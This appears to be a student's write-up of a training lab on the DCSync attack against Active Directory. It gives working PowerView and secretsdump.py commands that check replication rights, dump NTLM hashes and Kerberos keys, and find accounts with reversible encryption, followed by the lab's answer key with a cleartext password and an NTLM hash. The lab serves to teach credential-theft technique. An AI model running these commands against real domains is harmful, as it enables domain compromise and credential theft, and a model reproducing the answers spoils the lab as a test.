









<div align='center'>

# **Lab 17: DCSync** 

</div>

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

**Check permission for user adunn**

```powershell
$sid3 = Convert-NameToSid adunn
Get-DomainObjectACL -ResolveGUIDs | ? {$_.SecurityIdentifier -eq $sid3} -Verbose
```



**Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```zsh
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

Enter `SyncMaster` as the password when prompted.

All hashes will be write to files with the prefix `inlanefreight_hashes`



These files contain: the NTLM hashes, Kerberos keys, cleartext passwords from the NTDS for any accounts set with reversible encryption enabled

**Viewing an Account with Reversible Encryption Password Storage Set**



When this option is set on a user account, it does not mean that the passwords are stored in cleartext. Instead, they are stored using RC4 encryption. The key needed to decrypt them is stored in the registry (the Syskey) and can be extracted by a Domain Admin or equivalent

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell
Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```



**Displaying the Decrypted Password**



**Question:** Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.

- **Answer**: `syncron`



**Question:** What is this user's cleartext password?

- **Answer**: Mycleart3xtP@ss!



**Question:** Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.



- **Answer**: 4bb3b317845f0954200a6b0acc9b9f9a

